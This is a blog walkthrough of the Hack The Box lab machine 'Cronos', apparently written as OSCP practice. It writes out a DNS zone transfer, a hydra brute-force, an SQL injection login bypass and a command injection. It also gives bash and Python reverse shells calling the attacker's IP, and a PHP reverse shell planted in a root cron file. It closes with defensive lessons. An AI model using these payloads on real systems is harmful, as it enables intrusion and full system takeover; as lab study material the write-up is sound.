## sReconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

    nmap -sC -sV -O -oA initial 10.10.10.13

* **-sC**: run default nmap scripts

* **-sV**: detect service version

* **-O**: detect OS

* **-oA**: output all formats and store in file *nmap/initial*

We get back the following result showing that 3 ports are open:

* **Port 80: **running Apache httpd 2.4.18

* **Port 22**: running OpenSSH 7.2p2

* **Port 53**: running ISC BIND 9.10.3-P4 (DNS)



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

    nmap -sC -sV -O -p- -oA full 10.10.10.13

We get back the following result. No other ports are open.



Similarly, we run an nmap scan with the **-sU **flag enabled to run a UDP scan.

    nmap -sU -O -p- -oA udp 10.10.10.13

I managed to root the box and write this blog, while this UDP scan still did not terminate. So instead I ran another UDP scan only for the top 1000 ports.

## Enumeration

Port 80 is open so we’ll first visit the IP address in the browser.

As usual, we’ll run the general nmap vulnerability scan scripts to determine if any of the services are vulnerable.

We don’t get anything useful. Next, we enumerate directories on the web server.

    gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.13

Another dead end. At this point, I googled “Apache2 Ubuntu Default Page” and the first entry I got was [this](https://askubuntu.com/questions/603451/why-am-i-getting-the-apache2-ubuntu-default-page-instead-of-my-own-index-html-pa). It seems that this might be a configuration issue where the IP address doesn’t know what hostname it should map to in order to serve a specific site and so instead it’s serving the Apache2 ubuntu default page.

After looking at the [documentation](https://httpd.apache.org/docs/2.4/vhosts/examples.html) for virtual host configuration in Apache, we need to perform two things.

1. Figure out the hostname(s) that the given IP address resolves to.

1. Add those entries in the /etc/hosts file. The documentation mentions that just because you have virtual host configuration on the Apache server does not magically cause DNS entries to be created for those host names. The hostnames need to resolve to a specific IP address and so since we’re doing this locally, we can simply add the configuration entries in the hosts file.

For the first task, we’ll use nslookup to try and figure out the domain name. After running the command, set the server to be 10.10.10.13 and then lookup the given IP address.

We can see that this resolves to ns1.cronos.htb. This gives us a domain name of cronos.htb.

Second, as mentioned above we need to add the entry to our /etc/hosts file.

    10.10.10.13 cronos.htb

This way when you browse to cronos.htb page it resolves to 10.10.10.13 and knows which page to serve based on the virtual hosts configuration.



Now that we have a working domain name, let’s attempt a zone transfer to get a list of all hosts for this domain. The host command syntax for performing a zone transfer is.

    host -l <domain-name> <dns_server-address>

Therefore, to perform a zone transfer we use the following command.

    host -l cronos.htb 10.10.10.13

We get back the following result.

Add the entries in your hosts file.

    10.10.10.13 cronos.htb www.cronos.htb admin.cronos.htb

Let’s visit the admin page.



We’re presented with a login page. We’ll try and use that to gain an initial foothold on this box.

## Gaining an Initial Foothold

The first thing to try is common credentials (admin/admin, admin/cronos, etc.). That didn’t work and this is clearly a custom application, so we won’t find default credentials online. The next step would be to run a password cracker on it.

I’m going to use john’s password file.

    locate password | grep john

Let’s see how many passwords the file contains.

    wc -l /usr/share/john/password.lst

3559 passwords is good enough. Let’s pass the file to hydra and run a brute force attack.

To do that, first intercept the request with Burp to see the form field names and the location that the request is being sent to.

Now we have all the information we need to run hydra.

    hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"

* -l: specifies the username to be admin.

* -P: specifies the file that contains the passwords.

* http-post-form: we’re sending a POST request.

* “….”: the content in the double quotes specifies the username/password parameters to be tested and the failed login message.

If you want to see the requests that hydra is sending to confirm everything is working properly you can use the “-d” option.

**Note from the future**: Hydra (with the above configuration) doesn’t end up guessing any valid passwords.

While this is running, let’s try to see if the form is vulnerable to SQL injection. To do this manually, you can get any [SQL injection cheat sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/) from online. After I tried a few, the following payload in the username field successfully exploited the SQL injection vulnerability.

    admin' #

This bypasses authentication and presents us with the welcome page.



Generally, you would use sqlmap to check if the application is vulnerable to SQL injection, however, since I’m working towards my OSCP and sqlmap is not allowed, I had to resort to manual means.

Regardless, if you want to perform the attack using sqlmap, first intercept the request using Burp and save it in a file (login.txt). Then, run sqlmap on the request.

    sqlmap -v 4 -r login.txt

I used the verbosity level 4 so that I can see the payload sqlmap uses for each request.

For the above payload we get a redirect to the welcome page. To test it out, go back to the browser and enter the payload in the username field. Then hit submit.

We’re presented with the login page!



Now that we saw both the manual & automated way of exploiting SQL injections, let’s proceed with solving the box.

The commands being used on the welcome page are “traceroute” and “ping” so this specific functionality of the application clearly talks to the operating system. Let’s see if it’s vulnerable to command injection. Add the following in the input field and execute the code.

    8.8.8.8 & whoami

What the above command does is run the the preceding command (ping 8.8.8.8) in the background and execute the whoami command.

We get back the following result. It’s definitely vulnerable! The web server is running with the privileges of the web daemon user www-data.



Since we can run arbitrary commands using this tool, let’s get it to send a reverse shell back to our attack box.

**Note**: It’s not necessary to do this using Burp.

First, intercept the request with Burp and send it to Repeater (right click > Send to Repeater).

Go to pentestmonkey [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the bash reverse shell. Change the IP address and port to those applicable to your attack machine.

    /bin/bash -i >& /dev/tcp/10.10.14.6/4444 0>&1

Highlight the entire string and click on CTRL+U to URL encode it.



Set up a listener on the attack machine.

    nc -nlvp 4444

Execute the request. It doesn’t send a reverse shell back. Check if bash is installed on the machine.

    which bash



It is so I’m not sure why this didn’t work. Let’s try python.

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Again, don’t forget to URL encode it.

We get back a low privileged shell!

Let’s upgrade it to a better shell.

    python -c 'import pty; pty.spawn("/bin/bash")'

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

    stty raw -echo

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user flag.

We need to escalate privileges.

## Privilege Escalation

Let’s transfer the LinEnum script from our attack machine to the target machine.

In the attack machine, start up a server in the same directory that the script resides in.

    python -m SimpleHTTPServer 5555

In the target machine, change to the /tmp directory where we have write privileges and download the LinEnum script.

    cd /tmp
    wget http://10.10.14.6:5555/LinEnum.sh

Give it execute privileges.

    chmod +x LinEnum.sh

Run the script.

    ./LinEnum.sh

Considering the name of the box, I’m going to focus on Crontab.



If you’re not familiar with the crontab format, here’s a quick explanation taken from this [page](https://tigr.net/3203/2014/09/13/getting-wordpress-cron-work-in-multisite-environment/).



We’re currently running as www-data and that user usually has full privileges on the content of the directory /var/www. Let’s confirm that.



If you’re not familiar with unix permissions, here’s a great explanation.

<iframe src="https://medium.com/media/037607165e5c2ce8fd1495185cc52728" frameborder=0></iframe>

As we suspected, we own the file. Why is that good news for us? We own a file (with rwx permissions) that is running as a cron job with root privileges every minute of every hour of every month of every day of the week (that’s what the ***** means). If we change the content of the file to send a shell back to our attack machine, the code will execute with root privileges and send us a privileged shell.

The cron job is running the file using the PHP command so whatever code we add should be in PHP. Head to [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and grab the PHP reverse shell file. You can either transfer it or create it directly in the directory. In my case, I decided to transfer it using a simple python server and renamed the file to artisan (the name of file being compiled in the cron job).

    cp php-reverse-shell.php artisan

Set up a listener to receive the reverse shell.

    nc -nlvp 1234

Wait for a minute for the scheduled cron job to run and we are root!

Grab the root flag.

To escalate privileges in another way, transfer the linux exploit suggester script and run it on the target machine to see if your machine is vulnerable to any privilege escalation exploits.



I wasn’t able to successfully exploit Dirty COW on this machine but that doesn’t mean it’s not vulnerable. It could be vulnerable to a different variant of the exploit that I tested.

## Lessons Learned

To gain an initial foothold on the box we exploited three vulnerabilities.

1. The ability to perform a zone transfer which allowed us to get a list of all hosts for the domain. To prevent this vulnerability from occurring, the DNS server should be configured to only allow zone transfers from trusted IP addresses. It is worth noting that even if zone transfers are not allowed, it is still possible to enumerate the list of hosts through other (not as easy) means.

1. An SQL injection that allowed us to bypass authentication. To prevent this vulnerability from occurring, there are [many defenses ](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)that can be put in place, including but not limited to the use of parametrized queries.

1. An OS Command injection that allowed us to run arbitrary system commands on the box. Again, to prevent this vulnerability from occurring, there are [many defenses](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html) that can be put in place, including but not limited to the use of libraries or APIs as an alternative to calling OS commands directly.

To escalate to root privileges, we needed to exploit either of the following vulnerabilities.

1. A security misconfiguration in cron that had a scheduled cron job to run a non-privileged user owned file as root. We were able to exploit this to get a privileged reverse shell sent back to our box. To avoid this vulnerability, the cron job should have been scheduled with user privileges as apposed to root privileges.

1. Dirty COW vulnerability. This could have been avoided if the target machine was up to date on all its patches.

## Conclusion

10 machines down, 31 more to go!

